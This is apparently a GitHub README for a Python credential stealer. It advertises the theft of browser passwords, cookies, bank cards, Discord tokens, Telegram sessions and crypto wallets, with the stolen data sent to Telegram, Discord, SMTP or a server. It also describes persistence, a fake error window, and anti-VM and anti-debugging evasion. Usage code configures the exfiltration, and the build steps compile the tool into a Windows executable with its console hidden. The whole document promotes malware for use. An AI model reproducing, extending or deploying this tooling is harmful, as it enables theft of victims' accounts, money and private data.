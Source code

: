 # Stealer

Stealer in just a few lines with sending to Telegram / Server / Discord / SMTP. No dependencies, only built-in libraries.

## Description
The `Stealer` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Partially)
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Other 10 wallets
   - Steam configs
3. Built-in sending methods: 
   - Telegram
   - Server
   - Discord
   - SMTP
4. Support for browser multiprofiles.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.
9. Execution without creating any files.
10. Downloading and launching files by link.
11. Collecting files of the specified format in the specified directories.
12. Stopping work on virtual machines and when trying to debug.

## Example usage
### Standard
```python
from Stealer import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from Stealer import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Additional parameters

- `features` - list of modules from `Stealer.Features`:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - list of utilities from `Stealer.Utils`:

  - `autostart` - adding to autostart.

  - `message` - showing a fake [error window](https://github.com/FallenAstaroth/stink/wiki/Fake-error).


- `protectors` - list of protectors from `Stealer.Protectors`:

  - `processes` - checking processes for presence of debugging programs and virtual machines.

  - `mac_address` - checking MAC addresses for blacklisting.

  - `computer` - checking PC name for blacklisting.

  - `user` - checking username for blacklisting.

  - `hosting` - checking if PC is hosted.

  - `http_simulation` - checking for HTTP simulation.

  - `virtual_machine` - checking for virtual machine.

  - `disable` - complete disabling of all checks.

  - `all` - enabling of all checks.


- `senders` - list of sending methods from `stink.Senders`:

  - `server` - sending to [server].

  - `telegram` - sending to [Telegram].

  - `discord` - sending to [Discord].

  - `smtp` - send to [mail].


- `loaders` - list of file loaders from `Stealer`:

  - `Loader` - universal [loader].


- `grabbers` - list of file grabbers from `Stealer`:

  - `Grabber` - universal [grabber].
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download] archive.
2. Unpack the archive.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from Stealer import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
